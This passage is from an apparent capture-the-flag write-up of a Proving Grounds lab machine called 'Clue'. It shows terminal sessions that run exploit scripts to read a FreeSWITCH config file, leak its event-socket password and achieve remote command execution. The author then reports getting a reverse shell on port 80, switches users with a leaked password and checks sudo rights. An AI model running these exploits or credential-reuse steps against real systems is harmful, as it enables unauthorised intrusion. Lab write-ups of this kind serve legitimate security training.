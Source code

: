 ```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Clue]
└─$ python3 49362.py -p 3000 192.168.246.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml

<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="0.0.0.0"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="StrongClueConEight021"/>
  </settings>
</configuration>
```
{: .nolineno}

Now lets try that exploit with simple `id` command 🔻

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Clue]
└─$ python3 freeswitch_exploit.py 192.168.246.240 id          
Authenticated
Content-Type: api/response
Content-Length: 63

uid=998(freeswitch) gid=998(freeswitch) groups=998(freeswitch)
```
{: .nolineno}

I got the command execution working so lets have a shell now , as I was using the nc simple reverse shell command but I could not able to get the shell , I also used so many other reverse shell command from { python, nc ,bash ,awk } but they did not worked .

Now I was fustrated and after a while I try to change the reverse shell port from 4444 to 80 and I got the shell , What the f*\*k !!

![Image](Pasted%20image%2020240626222635.png)
_Reverse shell on port 80_

Lets change the user to `cassie` as it has higher privileges and as A password I will be using the password as I got from the *READ file Exploit of cassandra web* .

```bash
freeswitch@clue:/$ su cassie
su cassie
Password: SecondBiteTheApple330

cassie@clue:/$ whoami
whoami
cassie
cassie@clue:/$ id
id
uid=1000(cassie) gid=1000(cassie) groups=1000(cassie)
cassie@clue:/$ sudo -l
sudo -l
Matching Defaults entries for cassie on clue:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cassie may run the following commands on clue:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web
cassie@clue:/$ 
```
{: .nolineno}
